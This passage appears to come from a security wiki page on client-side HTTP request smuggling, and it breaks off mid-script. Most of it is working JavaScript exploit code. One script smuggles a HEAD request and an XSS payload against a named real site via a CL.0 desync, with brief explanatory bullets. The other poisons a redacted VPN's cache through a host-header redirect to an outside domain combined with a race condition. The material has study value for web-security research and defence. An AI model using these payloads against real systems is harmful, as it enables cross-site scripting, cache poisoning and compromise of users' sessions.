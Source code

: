 ![](<../../.gitbook/assets/image (5) (2) (1).png>)

* **JS Exploit**

```javascript
fetch('https://www.verisign.com/%2f', { 
    method: 'POST',
    body: `HEAD /assets/languagefiles/AZE.html HTTP/1.1\r\nHost: www.verisign.com\r\nConnection: keep-alive\r\nTransfer-Encoding: chunked\r\n\r\n34d\r\nx`, 
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'
}}).catch(() => {
    let form = document.createElement('form')
    form.method = 'POST'
    form.action = 'https://www.verisign.com/robots.txt'
    form.enctype = 'text/plain'
    let input = document.createElement('input')
    input.name = '0\r\n\r\nGET /<svg/onload=alert(1)> HTTP/1.1\r\nHost: www.verisign.com\r\n\r\nGET /?aaaaaaaaaaaaaaa HTTP/1.1\r\nHost: www.verisign.com\r\n\r\n'
    input.value = ''
    form.appendChild(input)
    document.body.appendChild(form)
    form.submit()
}
```

* The page **`/%2f`** is accessed to **exploit** the **CL.0** vulnerability.
* A **HEAD** request is smuggled using a **`Transfer-Encoding: chunked` header**.
  * This header is needed in this scenario because otherwise the **server refused to accept a HEAD request with a body**.
* Then, the user sends a POST whose body contains the **end chunk of the the previous HEAD** request and a **new request that is smuggled** with **content** (the JS payload) that will be **reflected** in the response.
  * Therefore the browser will treat the **response to the HEAD** request as the **response to the POST request** which will also **contains** in the **body** response that **reflects** the **input** of the user in the second smuggled request.

### Host header redirect + RC

* **JS Exploit**

```html
<script>
    function reset() {
        fetch('https://vpn.redacted/robots.txt', 
            {mode: 'no-cors', credentials: 'include'}
        ).then(() => {
            x.location = "https://vpn.redacted/dana-na/meeting/meeting_testjs.cgi?cb="+Date.now()
        })
        setTimeout(poison, 120) // worked on 140. went down to 110
    }

    function poison(){
        sendPoison()
        sendPoison()
        sendPoison()
        setTimeout(reset, 1000)
    }

    function sendPoison(){
        fetch('https://vpn.redacted/dana-na/css/ds_1234cb049586a32ce264fd67d524d7271e4affc0e377d7aede9db4be17f57fc1.css', 
            {
                method: 'POST',
                body: "GET /xdana-na/imgs/footerbg.gif HTTP/1.1\r\nHost: x.psres.net\r\nFoo: '+'a'.repeat(9826)+'\r\nConnection: keep-alive\r\n\r\n",
```